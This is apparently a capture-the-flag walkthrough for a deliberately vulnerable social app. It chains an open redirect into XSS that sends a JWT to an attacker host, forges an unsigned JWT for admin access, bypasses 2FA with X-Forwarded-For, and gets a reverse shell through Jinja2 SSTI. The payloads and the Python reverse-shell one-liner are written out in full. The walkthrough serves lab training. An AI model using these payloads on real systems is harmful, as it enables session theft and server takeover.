# Solutions

## Stage 1: Access with any user

<details>
<summary>Display</summary>

At this stage, the objective is to access the application with any user.

To begin with, we access http://whp-socially/ and we find the following screen:


We see that in the left side menu we have the "Login" option, but it is not important since we do not have any account and we cannot register.

If we review the posts on the page, we see that there is a post by a user named "admin" with a link that takes us to the Google page.


This link is relevant because it does not redirect directly to Google, but uses a parameter called "next" to redirect to the page of our choice.

This is reminiscent of a vulnerability called "Open Redirect", which is that an attacker can redirect a user to a page that is not what the user expects, for example, to a phishing page.

To validate if this is a vulnerability, we can manipulate the "next" parameter, leaving the link as follows:

http://whp-socially/?next=http://example.com


And when accessing this link, we are redirected to the page example.com, which confirms the vulnerability.

Open Redirect is a very common vulnerability, usually not very dangerous and in many cases it is reported as low severity or even informative. However, there are cases where it can be exploited for more complex attacks, such as Cross-Site Scripting (XSS). An XSS allows an attacker to execute JavaScript code in the user's browser. Let's check if this is possible.

For this, we need to identify how the application performs the redirection. We can use Burp Suite to intercept the request and see what is happening.



The application redirects using JavaScript code, more specifically, with the "href" property of the "window.location" object.

When redirecting via JavaScript, and not via an HTTP "Location" header, the Open Redirect can lead to an XSS. This is very useful for Bug Bounty, because XSS are reported with higher severity than Open Redirect, providing a higher reward.

Let's try to exploit this. First, let's test if "javascript:" works for us, to see if we can execute JavaScript code.


Apparently, "javascript:" is blocked. However, by using the %09 character (URL-encoded tab character), we can bypass the filters.

To do this, we add this character between the first and the last letter of the word "javascript", as follows:



This character generates a blank space, which is ignored by the browser. This simple, but not so well known technique helped me to bypass Imperva's commercial WAF in a Bug Bounty scenario.

Now, we can execute JavaScript code. Let's try calling the "alert()" function to see if it works.



Apparently, the "alert()" function is also blocked. However, we can use the "print()" function, which generates a print window.


Perfect, it works! Let's access it from the browser to confirm that the JavaScript code is executed. The link should look like this:

http://whp-socially/?next=j%09avascript:print()



The JavaScript code executes correctly. However, it is not very useful, as it only generates a print window. Let's try something more interesting, such as stealing the user's session.

But first, we need to identify how the session / authentication is stored by the application. Usually, it is stored in a cookie, but this is not always the case. To determine this, we check the JavaScript files that are running on the main page. In this case, we have a file called "main.js".


In this file, we can see that the function "localStorage.getItem('token')" is called, which is responsible for obtaining the user's token from the browser's local storage.

In case there is any doubt, the main difference between cookies and local storage is that cookies are stored in the browser and the server, while local storage is only stored in the browser.

Let's try to steal the user's token. We need an attacker server to receive the token from the victim. For this, we can use a Python HTTP server, with the following command:

    python3 -m http.server 80


Now, let's see what is the IP address of our attacker machine. For this, we can use the "ifconfig" command. The IP address we are interested in is the one of the Docker bridge interface, with the name starting with "br-".


With this information, we can create a payload that uses the "fetch()" function to send the token to the attacker's server via a GET request. The link would look like this:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<ATTACKER_IP>/%27%2blocalStorage.getItem(%27token%27))
```

**Important:** You have to replace \<ATTACKER_IP\> with the IP address of the attacker's machine. In addition, the "+" character in URL must be encoded, so that it is not interpreted as a blank space.

If we test the link, we will see that the request does not reach the attacker's server. Let's check the browser console to see what is going on.


Apparently, there is a syntax error related to the "&" character. To debug this, we can send the request to the Burp Suite Repeater and see where the problem lies.



The problem is that the character "%27" (URL-encoded single quote) is being encoded using HTML Entities. This is because the application is escaping the special characters.

To fix this, we can see if the rest of the quotes are being escaped as well. With JavaScript, we can represent strings using single quotes, double quotes or backticks.



In this case, the backticks are not being escaped. Therefore, we can use them to solve the problem. The link would look like this:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<ATTACKER_IP>/`%2blocalStorage.getItem(`token`))
```

If we test the link, we see that the request reaches the attacker's server.


We get the value "null", this is because we are not authenticated, but this serves to verify that the request arrives correctly. Now, we are going to send the request to the victim, using the exploit server available at http://whp-exploitserver/.


We click the "Deliver URL to victim" button to send the link to the victim. The exploit server simulates the victim's navigation and we see that a JSON Web Token (JWT) successfully reaches the attacker's server.


Now, we can use the JWT to authenticate to the http://whp-socially/ application. We open the browser console and execute the following JavaScript code:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<SIGNATURE>')

**Important:** For the console to let us paste the above code, we must type "allow pasting" just before executing the code. Also, replace \<SIGNATURE\> with the signature of the JWT we have obtained.



If we reload the page, we check that we have successfully authenticated with the "ares" account.



</details>

## Stage 2: Access as admin

<details>
<summary>Display</summary>

At this stage, the goal is to log in as an administrator.

After logging in, we can see that we have a functionality to publish posts, but it is disabled.


Therefore, let's check the JWT for vulnerabilities.

JWT consists of three parts: header, payload and signature. The header contains information about the encryption algorithm used. The payload contains the information we want to store in the JWT. The signature is used to verify that the JWT has not been modified, and is calculated using the header, the payload and a secret key.

Thanks to the page [JWT.io](https://jwt.io/), we can see the content of the JWT more easily. We enter the JWT obtained earlier and get the following information:



We have an "id" field with the value "5", which most likely corresponds to the user's identifier. To modify it, we need to know the secret key used to sign the JWT, unless we can find a vulnerability.

If we check the Burp Suite HTTP History when adding a JWT in the browser's Local Storage and refresh the page, a request is made against the "/session" endpoint, which given a valid JWT returns a session cookie.


Let's try removing the signature from the JWT and see what happens. If the signature is removed and the application does not check it, the JWT is considered valid. If this happens, the application should return a session cookie.


This vulnerability allows us to manipulate the JWT payload, so we can modify the value of the "id" key to be "1" and log in as the first user of the application, which is usually the administrator.


We log out and specify the modified JWT from the browser console as follows:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')



If we reload the page, we check that we are logged in as administrator.


</details>

## Stage 3: Read the /flag file

<details>
<summary>Display</summary>

At this stage, the goal is to read the /flag file, which contains the final flag.

The administration panel looks like this:



We have two options: update the SMTP server data and send a test email. The problem is that if we try to use either of the two options, a second authentication factor is triggered, which asks for an OTP code.

Example when trying to update the SMTP server data:


There are cases where applications rely on the "X-Forwarded-For" header. This header was created so that web servers can know the real IP of users accessing the application through a proxy. In this case, the application trusts this header and does not check the user's real IP.

If we add the "X-Forwarded-For" header so that its value is the loopback IPv4 address (127.0.0.1), the application believes that the user is accessing from the same machine as the server, so the second authentication factor is not activated.

The request made when attempting to update the SMTP server data is as follows:


By adding the header "X-Forwarded-For: 127.0.0.1", the server does not check the second authentication factor and authorizes the request.


We can add a "Match and Replace" rule in Burp Suite so that the "X-Forwarded-For" header is automatically added to all requests, with the following configuration:

* **Type:** Request header
* **Replace:** X-Forwarded-For: 127.0.0.1


We are going to modify the IP address of the SMTP server to be that of the attacker.


With Python we can create an SMTP server that listens on port 25 and shows us the emails it receives. To do this, we execute the following command:

    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25


Now, if we send a test email to any address, we receive it on the SMTP server.



The request made when sending a test email is as follows:


The "message" key is striking because its value contains the variable {{session['username']}}, which is replaced by the name of the user sending the email. This is reminiscent of a Server-Side Template Injection (SSTI) vulnerability, which allows code to be executed on the server, in this case, Python code.

To confirm that this is a SSTI vulnerability, the first thing to do is to identify the template engine used by the application, since each has its own syntax. 

The most commonly used template engine in Flask is Jinja2. To check if the application is using this template engine, we can try sending a test email with the following content:

    {{config}}



And check if the response contains information about the application configuration.



It works, so we can try to extract the content of the /flag file, using the following payload extracted from [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread):

    {{cycler.__init__.__globals__.os.popen('cat /flag').read()}}


Unfortunately, the value of the "message" key is too long, so the payload is not executed.

We need a shorter payload, but first we need to know how much space we have available for the payload. We will keep adding "X" characters in "message" until the request returns an error.

By sending 45 "X" characters, the request works correctly.



When sending 46 "X" characters, the request returns an error.


We can conclude that we have 45 characters available for the payload.

The article [Exploiting Jinja SSTI with limited payload size](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/) provides a solution to bypass the payload size restriction.

The proposed technique consists of updating "config", which is a dictionary containing the application configuration. We add an element to the dictionary called "a" with the command that we pass to it by the GET parameter "a".

In this way, we do not need to include the command in the "message" field, but pass it through the GET parameter, thus bypassing the size restriction.

In this case, the command is a Python 3 reverse shell.

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

**Important:** Modify "ATTACKER_IP" and "ATTACKER_PORT" by the IP address and port of the attacker respectively. Select the text and press "Ctrl+U" in Burp Suite Repeater to encode it in URL format.

And the payload we are going to use is the following:

    {{config.update(a=request.args.get('a'))}}



We listen on the port specified in the payload.

    nc -lvnp <ATTACKER_PORT>


We launch os.popen(config.a) to execute the reverse shell command, with the following payload:

    {{lipsum.__globals__.os.popen(config.a)}}

Explanation of the payload:
* **lipsum:** function that generates random text, from here we can access the global variables.
* **\_\_globals\_\_:** dictionary containing the global variables of the functions, including "os".
* **os:** module containing functions to interact with the operating system.
* **popen:** function that executes a command in the operating system.


And we get a reverse shell.


We read the content of the /flag file.


</details>
